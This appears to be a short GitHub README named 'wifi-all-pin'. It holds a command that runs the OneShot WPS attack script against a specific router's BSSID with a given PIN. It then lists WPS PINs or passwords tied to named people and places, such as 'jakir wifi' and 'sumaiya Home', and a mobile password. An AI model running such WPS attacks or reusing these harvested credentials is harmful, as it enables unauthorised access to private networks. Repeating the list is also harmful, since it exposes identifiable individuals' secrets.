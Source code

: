 # wifi-all-pin

 sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

jiban:- 68642419

sumaiya Home:- 21660436

sadik wifi= 70367157

SK arman bazar wifi:- 17985123

Renu kaka:- 30712881

sumaiya মোবাইল পাসওয়ার্ট:- 637267
